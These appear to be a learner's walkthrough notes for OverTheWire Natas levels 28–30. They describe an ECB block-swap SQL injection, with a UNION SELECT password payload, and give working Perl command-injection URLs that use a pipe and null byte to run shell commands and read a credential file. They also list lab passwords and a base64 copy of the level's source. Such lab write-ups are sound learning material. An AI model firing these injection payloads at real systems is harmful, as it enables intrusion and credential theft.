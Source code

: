- The flag was obtained by exploiting a vulnerability in ECB (Electronic Code Book) encryption mode combined with SQL injection. The web application was encrypting user queries into a database search, but because ECB mode encrypts each 16-byte block independently without chaining, identical plaintext blocks always produce identical ciphertext blocks.
- The attack worked by carefully crafting a SQL injection payload with specific padding (9 A's followed by a single quote) to align the escaped quote character at a block boundary. Since the application was escaping single quotes by adding a backslash, the attacker could identify and isolate the block containing the escape sequence. By replacing this "bad" block with a "dummy" block from a benign query (containing only spaces), they could bypass the SQL injection protection. The final payload used UNION SELECT ALL password FROM users to extract passwords from the database, revealing the flag for natas29.
- 2025-07-21 Break Day
- 2025-07-22 Break Day
- 2025-07-23 Break Day

## 29->30
- http://natas29.natas.labs.overthewire.org/
- `natas30:WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH`
- https://learnhacking.io/overthewire-natas-level-29-walkthrough/
- From PHP to Perl. Perl injection?
- These work http://natas29.natas.labs.overthewire.org/index.pl?file=|pwd%00, http://natas29.natas.labs.overthewire.org/index.pl?file=|ls%00
- http://natas29.natas.labs.overthewire.org/index.pl?file=|cat%20/etc/natas_webpass/natas30%00 gives meeeeeeep! error, okay.
```
IyEvdXNyL2Jpbi9wZXJsCnVzZSBDR0kgcXcoOnN0YW5kYXJkKTsKCnByaW50IDw8RU5EOwpDb250 ZW50LVR5cGU6IHRleHQvaHRtbDsgY2hhcnNldD1pc28tODg1OS0xCgo8IURPQ1RZUEUgSFRNTCBQ VUJMSUMgIi0vL1czQy8vRFREIEhUTUwgNC4wMS8vRU4iPgo8aGVhZD4KPCEtLSBUaGlzIHN0dWZm IGluIHRoZSBoZWFkZXIgaGFzIG5vdGhpbmcgdG8gZG8gd2l0aCB0aGUgbGV2ZWwgLS0+CjxsaW5r IHJlbD0ic3R5bGVzaGVldCIgdHlwZT0idGV4dC9jc3MiIGhyZWY9Imh0dHA6Ly9uYXRhcy5sYWJz Lm92ZXJ0aGV3aXJlLm9yZy9jc3MvbGV2ZWwuY3NzIj4KPGxpbmsgcmVsPSJzdHlsZXNoZWV0IiBo cmVmPSJodHRwOi8vbmF0YXMubGFicy5vdmVydGhld2lyZS5vcmcvY3NzL2pxdWVyeS11aS5jc3Mi IC8+CjxsaW5rIHJlbD0ic3R5bGVzaGVldCIgaHJlZj0iaHR0cDovL25hdGFzLmxhYnMub3ZlcnRo ZXdpcmUub3JnL2Nzcy93ZWNoYWxsLmNzcyIgLz4KPHNjcmlwdCBzcmM9Imh0dHA6Ly9uYXRhcy5s YWJzLm92ZXJ0aGV3aXJlLm9yZy9qcy9qcXVlcnktMS45LjEuanMiPjwvc2NyaXB0Pgo8c2NyaXB0 IHNyYz0iaHR0cDovL25hdGFzLmxhYnMub3ZlcnRoZXdpcmUub3JnL2pzL2pxdWVyeS11aS5qcyI+ PC9zY3JpcHQ+CjxzY3JpcHQgc3JjPWh0dHA6Ly9uYXRhcy5sYWJzLm92ZXJ0aGV3aXJlLm9yZy9q cy93ZWNoYWxsLWRhdGEuanM+PC9zY3JpcHQ+PHNjcmlwdCBzcmM9Imh0dHA6Ly9uYXRhcy5sYWJz Lm92ZXJ0aGV3aXJlLm9yZy9qcy93ZWNoYWxsLmpzIj48L3NjcmlwdD4KPHNjcmlwdD52YXIgd2Vj aGFsbGluZm8gPSB7ICJsZXZlbCI6ICJuYXRhczI5IiwgInBhc3MiOiAiMzFGNGozUWkyUG51aEla UW9reFhrMUwzUVQ5Q3BwbnMiIH07PC9zY3JpcHQ+PC9oZWFkPgo8Ym9keSBvbmNvbnRleHRtZW51 PSJqYXZhc2NyaXB0OmFsZXJ0KCdyaWdodCBjbGlja2luZyBoYXMgYmVlbiBibG9ja2VkIScpO3Jl dHVybiBmYWxzZTsiPgoKPHN0eWxlPgoKI2NvbnRlbnQgewogICAgd2lkdGg6IDEwMDBweDsKfQpw cmV7CiAgICBiYWNrZ3JvdW5kLWNvbG9yOiAjMDAwMDAwOyAKICAgIGNvbG9yOiAjMDBGRjAwOyAK fSAKCjwvc3R5bGU+Cgo8aDE+bmF0YXMyOTwvaDE+CjxkaXYgaWQ9ImNvbnRlbnQiPgpFTkQKIwoj IG1vcmxhIC8xMDExMQojICckXz1xdy9sanR0ZnQzZHZ1ey8scy8uL3ByaW50IGNociBvcmQoJCYp LTEvZWcnCiMKIyBjcmVkaXRzIGZvciB0aGUgcHJldmlvdXMgbGV2ZWwgZ28gdG8gd2hvZXZlciAK IyBjcmVhdGVkIGluc29tbmloYWNrMjAxNi9mcmlkZ2luYXRvciwgd2hlcmUgaSBzdG9sZSB0aGUg aWRlYSBmcm9tLiAKIyB0aGF0IHdhcyBhIGZ1biBjaGFsbGVuZ2UsIFRoYW5rcyEgCiMKCnByaW50 IDw8RU5EOwpIM3kgSzFkWiw8YnI+CnkwIHJFbTNtQjNyeiBwM1JsIHJpdDM/PGJyPgpcXC9cXC80 Tm40IGcwIG9sRDVrZXdMPyBSM2FEIFVwITxicj48YnI+Cgo8Zm9ybSBhY3Rpb249ImluZGV4LnBs IiBtZXRob2Q9IkdFVCI+CjxzZWxlY3QgbmFtZT0iZmlsZSIgb25jaGFuZ2U9InRoaXMuZm9ybS5z dWJtaXQoKSI+CiAgPG9wdGlvbiB2YWx1ZT0iIj5zM2xFY1Qgc3VNcDFuITwvb3B0aW9uPgogIDxv cHRpb24gdmFsdWU9InBlcmwgdW5kZXJncm91bmQiPnBlcmwgdW5kZXJncm91bmQ8L29wdGlvbj4K ICA8b3B0aW9uIHZhbHVlPSJwZXJsIHVuZGVyZ3JvdW5kIDIiPnBlcmwgdW5kZXJncm91bmQgMjwv b3B0aW9uPgogIDxvcHRpb24gdmFsdWU9InBlcmwgdW5kZXJncm91bmQgMyI+cGVybCB1bmRlcmdy b3VuZCAzPC9vcHRpb24+CiAgPG9wdGlvbiB2YWx1ZT0icGVybCB1bmRlcmdyb3VuZCA0Ij5wZXJs IHVuZGVyZ3JvdW5kIDQ8L29wdGlvbj4KICA8b3B0aW9uIHZhbHVlPSJwZXJsIHVuZGVyZ3JvdW5k IDUiPnBlcmwgdW5kZXJncm91bmQgNTwvb3B0aW9uPgo8L3NlbGVjdD4KPC9mb3JtPgoKRU5ECgpp ZihwYXJhbSgnZmlsZScpKXsKICAgICRmPXBhcmFtKCdmaWxlJyk7CiAgICBpZigkZj1+L25hdGFz Lyl7CiAgICAgICAgcHJpbnQgIm1lZWVlZWVwITxicj4iOwogICAgfQogICAgZWxzZXsKICAgICAg ICBvcGVuKEZELCAiJGYudHh0Iik7CiAgICAgICAgcHJpbnQgIjxwcmU+IjsKICAgICAgICB3aGls ZSAoPEZEPil7CiAgICAgICAgICAgIHByaW50IENHSTo6ZXNjYXBlSFRNTCgkXyk7CiAgICAgICAg fQogICAgICAgIHByaW50ICI8L3ByZT4iOwogICAgfQp9CgpwcmludCA8PEVORDsKPGRpdiBpZD0i dmlld3NvdXJjZSI+YzRuIFkwIGg0eiBzNHVjMz88L2Rpdj4KPC9kaXY+CjwvYm9keT4KPC9odG1s PgpFTkQK
```
